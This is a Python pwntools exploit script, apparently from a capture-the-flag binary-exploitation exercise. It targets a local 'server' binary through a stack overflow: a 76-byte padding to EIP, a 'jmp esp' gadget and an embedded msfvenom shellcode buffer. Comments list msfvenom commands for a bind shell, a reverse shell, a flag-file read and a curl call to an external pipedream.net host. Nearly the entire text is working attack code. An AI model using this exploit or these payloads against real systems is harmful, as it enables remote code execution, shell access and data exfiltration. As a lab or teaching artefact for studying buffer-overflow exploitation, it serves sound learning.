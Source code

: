       # Binary filename
      exe = './server'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Change logging level to help with debugging (error/warning/info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      io = start()
      
      # Offset to EIP
      padding = 76
      
      # Assemble the byte sequence for 'jmp esp' so we can search for it
      jmp_esp = asm('jmp esp')
      jmp_esp = next(elf.search(jmp_esp))
      
      # msfvenom -p linux/x86/exec CMD="curl https://en4i3omt29wvgco.m.pipedream.net" -b '\x00' -f python
      # msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
      # msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
      # msfvenom -p linux/x86/read_file PATH=flag.txt FD=2 -b '\x00' -f python
      
      # Exploit
      buf = b""
      buf += b"\xb8\xa4\xe4\x0d\x3b\xda\xd2\xd9\x74\x24\xf4\x5b\x31"
      buf += b"\xc9\xb1\x12\x31\x43\x14\x83\xc3\x04\x03\x43\x10\x46"
      buf += b"\x11\xe6\x0d\x3e\xdf\xf9\x71\x3e\xbb\xc8\xb8\xf3\xbb"
      buf += b"\xa2\xf8\xb3\xbf\xb4\xfe\xc3\x36\x53\x77\x3a\xf2\x9c"
      buf += b"\x98\xbc\x03\x50\x18\x35\xc1\xd2\x1d\x45\xc6\x22\xa5"
      buf += b"\x47\xc6\x22\xd9\x8a\x46\x9a\xd8\x14\x47\xdb\x61\x14"
      buf += b"\x47\xdb\x95\xd9\xc7\x33\x50\x1e\x38\x3c\x3d\x8c\xa6"
      buf += b"\xa4\xec\x38\x51\x5f\xf1"
      